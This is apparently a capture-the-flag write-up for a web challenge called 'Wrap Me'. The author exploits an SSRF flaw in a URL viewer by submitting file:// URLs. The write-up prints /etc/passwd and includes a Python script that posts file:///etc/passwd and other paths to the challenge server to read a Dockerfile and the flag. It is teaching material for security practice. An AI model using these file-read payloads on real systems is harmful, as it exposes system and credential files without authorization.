 # Wrap Me

## Description
```
The features of this parser are amazing. 
http and https protocols work great, but there is something else
```

## Writeup

Taking a look at the website. <br/>
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>URL Viewer</title>
    <link rel="stylesheet" href="styles.css">
</head>

<body>
    <div class="container">

        <div class="form-container">
            <form method="POST">
                <label for="url" class="form-label">URL:</label>
                <input type="text" id="url" name="url" class="form-input" required>
                <input type="submit" value="Отправить" class="form-submit">
            </form>
        </div>
    </div>
</body>

</html>
```

It seemed as if this was a website to look up other websites. <br/>
Knowing this I knew that it was probably a `SSRF` vulnerability. <br/>
Testing out simple `SSRF` with `file://` because the description states that maybe some other protocol works. <br/>
Using `file:///etc/passwd` I was able to read `passwd`. <br/>
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

I made a small python script to execute the SSRF and display it. <br/>
```py
import requests
from urllib.parse import urlencode
from bs4 import BeautifulSoup

# baseURL
url = 'http://45.88.77.177:21004/'

# absolute file path
path = '/etc/passwd'

# Payload
data = {"url": f"file://{path}"}

# URL encode data
encoded_data = urlencode(data)

# Send request
req = requests.post(url, data=encoded_data, headers={"Content-Type": "application/x-www-form-urlencoded"}, verify=False)

# Get answer from response
soup = BeautifulSoup(req.text, 'html.parser')
result_container = soup.find('div', class_='result-container')

try:
    print(result_container.text)
except:
    print('No Result')
```

After a small directory scan I found `Dockerfile` and `flag`. <br/>
Now using my script with the default webroot path `/var/www/html` I was able to read `Dockerfile`. <br/>
```docker
FROM php:8.1.17-apache

WORKDIR /var/www/html

COPY . .

RUN chown -R www-data:www-data /var/www/html

COPY flag/ports.conf /etc/apache2

EXPOSE 21004

CMD ["apache2-foreground"]
```

Now I suppose this doesn't tell us much other than `flag` I found with the directory scan is actually a directory. <br/>
Knowing that, instead of searching for other files I tried to enumerate the flag with the format `flag.txt`. <br/>
Doing that I was able to enumerate the flag using the path `/var/www/html/flag/flag.txt` which concludes the writeup. <br/>
```sh
kali@kali python3 solve.py

grodno{PHp_Wr4pP3R_F1l3}
```
